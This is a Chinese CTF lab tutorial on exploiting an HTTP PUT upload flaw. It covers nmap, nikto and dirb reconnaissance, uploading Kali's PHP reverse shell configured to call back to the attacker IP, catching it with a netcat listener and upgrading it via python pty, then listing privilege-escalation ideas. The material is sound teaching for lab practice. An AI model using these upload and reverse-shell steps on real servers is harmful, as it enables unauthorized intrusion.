# 网络安全CTF：P16：PUT上传漏洞利用实战 🚩

在本节课中，我们将学习CTF比赛中一种常见的漏洞类型——中间件PUT上传漏洞。我们将了解其原理，并通过一个完整的实战演练，学习如何利用该漏洞从外部获取目标服务器的Shell，最终目标是取得root权限和flag值。

## 中间件PUT漏洞简介

上一节我们介绍了CTF比赛的整体目标，本节中我们来看看PUT上传漏洞。中间件（如Apache、Tomcat、IIS、Weblogic等）可以配置支持多种HTTP方法。HTTP方法包括GET、POST、HEAD、DELETE、PUT、OPTIONS等。

每个HTTP方法都有其特定功能。在这些方法中，**PUT方法允许客户端直接上传文件到服务器**。恶意攻击者可以利用中间件开放的PUT方法，将Web Shell直接上传到服务器的指定目录。

如果可以成功上传Shell，则侧面反映了PUT漏洞的严重性。


## 实验环境搭建



以下是本次实验的环境配置：



*   **攻击机**：Kali Linux
    *   IP地址：`192.168.1.111`
*   **靶机**：Linux系统
    *   IP地址：`192.168.1.102`

我们的目标是获取靶机的root权限，并找到对应的flag值。



## 第一步：信息收集与探测



现在我们已经拿到了实验环境，首先要进行信息收集。信息收集的目的是发现目标开放的端口和服务，寻找潜在的突破口。

### 扫描开放端口

以下是使用Nmap进行端口扫描的步骤：

1.  使用Nmap快速扫描靶机所有开放端口。
2.  命令：`nmap -T4 -p- 192.168.1.102`
    *   `-T4`：指定扫描速度，T4为较快速度。
    *   `-p-`：扫描所有端口（1-65535）。

因为扫描所有端口会发送大量数据包，使用较快速度可以避免等待时间过长。

### 全面系统探测

除了扫描端口，我们还可以对目标进行更全面的探测。

以下是使用Nmap加载所有模块进行深度扫描的命令：
`nmap -T4 -A -v 192.168.1.102`
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出信息。

### 分析扫描结果

探测完毕后，我们需要对Nmap的扫描结果进行深入分析。

从端口扫描结果中，我们发现靶机开放了两个关键端口：
*   **22端口**：SSH服务。
*   **80端口**：HTTP服务。

从全面扫描的信息中，我们获得了更多细节，例如操作系统类型、内核版本、Web中间件类型，以及**关键信息：该HTTP服务支持的PUT方法**。



## 第二步：Web目录与敏感信息探测



上一节我们通过端口扫描发现了HTTP服务，本节中我们使用专门工具来探测Web应用的目录和敏感信息。

### 使用Nikto进行漏洞扫描

Nikto是一款经典的Web服务器扫描器。

以下是使用Nikto扫描靶机Web服务的命令：
`nikto -h http://192.168.1.102`
*   `-h`：指定目标主机。

扫描结果显示了一些信息，如PHP版本为5.3.1，以及一些可能存在的安全配置问题（如缺少某些HTTP安全头）。

### 使用Dirb进行目录爆破

Dirb是一个基于字典的Web目录扫描工具。

以下是使用Dirb扫描靶机Web目录的命令：
`dirb http://192.168.1.102`

Dirb扫描发现了两个可能的目录：
1.  一个图片URL，查看后未发现有用信息。
2.  一个名为 `/test/` 的目录。

访问 `/test/` 目录，发现是一个空目录，这本身可能就是一个值得深入探查的点。

## 第三步：漏洞验证与利用

在常规扫描未发现明显高危漏洞后，我们需要手动测试潜在风险点。



### 验证PUT方法是否可用

我们怀疑 `/test/` 目录可能存在PUT漏洞。使用curl工具来测试该目录支持的HTTP方法。

以下是测试HTTP方法的命令：
`curl -v -X OPTIONS http://192.168.1.102/test/`
*   `-v`：显示详细过程。
*   `-X OPTIONS`：发送OPTIONS请求，用于查询服务器支持的HTTP方法。





服务器返回的响应头中明确列出了允许的HTTP方法，其中包含**PUT**。这证实了 `/test/` 目录存在PUT上传漏洞。

### 利用思路





利用PUT漏洞获取Shell的思路如下：
1.  利用PUT方法上传一个Web Shell到服务器的 `/test/` 目录。
2.  通过浏览器访问上传的Web Shell文件。
3.  在攻击机上监听指定端口，等待Web Shell反弹连接。
4.  获得靶机的反向Shell连接。

### 准备Web Shell



我们使用一个PHP反弹Shell脚本。



1.  在Kali中定位并复制Web Shell文件到桌面。
    *   路径通常为：`/usr/share/webshells/php/php-reverse-shell.php`
2.  编辑Web Shell文件，设置反弹连接的IP和端口。
    *   将 `$ip` 变量改为攻击机IP：`192.168.1.111`
    *   将 `$port` 变量改为监听端口（例如 `443`）。

编辑后的关键代码部分如下：
```php
$ip = ‘192.168.1.111’;
$port = 443;
```

### 上传Web Shell



我们使用浏览器插件（如Postman或REST Client）模拟PUT请求上传文件。





1.  构造一个PUT请求。
    *   URL: `http://192.168.1.102/test/shell.php`
    *   Method: `PUT`
    *   Body: 选择 `binary` 并上传编辑好的 `shell.php` 文件。
2.  发送请求。如果返回 `201 Created` 或 `200 OK`，则表示上传成功。
3.  访问 `http://192.168.1.102/test/shell.php`，确认文件已存在。



### 建立监听并获取Shell

在攻击机上使用Netcat工具监听我们之前在Web Shell中设置的端口。

以下是开启监听的命令：
`nc -nlvp 443`
*   `-n`：直接使用IP地址，不进行DNS解析。
*   `-l`：监听模式。
*   `-v`：详细输出。
*   `-p 443`：指定监听端口。

监听开启后，在浏览器中访问上传的Web Shell文件（`http://192.168.1.102/test/shell.php`）。此时，Netcat终端会接收到一个来自靶机的反向Shell连接。

## 第四步：Shell交互与权限提升





成功获取反向Shell后，我们发现当前用户权限较低（例如 `www-data` 用户）。为了执行更高权限的操作（如读取flag），需要进行权限提升。

### 改善Shell交互

获取的初始Shell可能功能不全，我们可以使用Python来生成一个更完整的TTY Shell。

在获取的Shell中执行以下命令：
```bash
python -c ‘import pty; pty.spawn(“/bin/bash”)’
```
或者
```bash
echo “import pty; pty.spawn(‘/bin/bash’)” > /tmp/shell.py && python /tmp/shell.py
```
执行后，我们将获得一个功能更完善的bash Shell。



### 检查当前权限



使用以下命令查看当前用户身份和权限：
```bash
id
whoami
```
这些命令将显示当前用户并非root，我们需要寻找提权方法。

### 权限提升思路

权限提升（Privilege Escalation）是一个广泛的主题，在本案例中可能涉及：
*   查找具有SUID权限的特殊程序。
*   利用内核漏洞。
*   查找数据库或配置文件中的密码。
*   利用`sudo`权限配置不当。

